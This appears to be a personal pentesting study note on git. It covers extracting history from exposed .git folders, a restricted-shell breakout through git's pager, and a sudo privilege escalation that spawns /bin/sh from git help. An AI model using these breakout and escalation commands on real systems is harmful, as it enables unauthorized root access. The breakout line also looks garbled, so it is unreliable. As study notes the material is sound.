 ```yaml
---
creation date: April 6th 2023
last modified date: April 6th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[git]]  
___

## Description:  
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/git
### Setting up a .git folder

```
git init master

git status

git add file.sh

git commit -m "First Test"

git log

git diff 4aefc023afb818866bd8c0920d438b44e76f642b a154424d8711ee481cf2e09b8acc6bbc844cddbe > patch.patch
```
If you have a directory with a .git folder you can run git commands locally without needing to run `git init`


### Git History
You can find past commits if there is a .git folder present:
https://github.com/internetwache/GitTools/tree/master/Extractor
```
bash extractor.sh /tmp/mygitrepo /tmp/mygitrepodump
 
bash extractor.sh . .
 
You can also:
 
View the commit history with:
git log
 
to go back to a specific commit:
git revert 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78
```

### Break out of restricted shells
```
PAGER='sh -c "exec ifconfig0<&1"' git -p help
```

### Exploiting Sudo Rights

```
sudo git help config
!/bin/sh


```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 6th 2023 (09:09 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
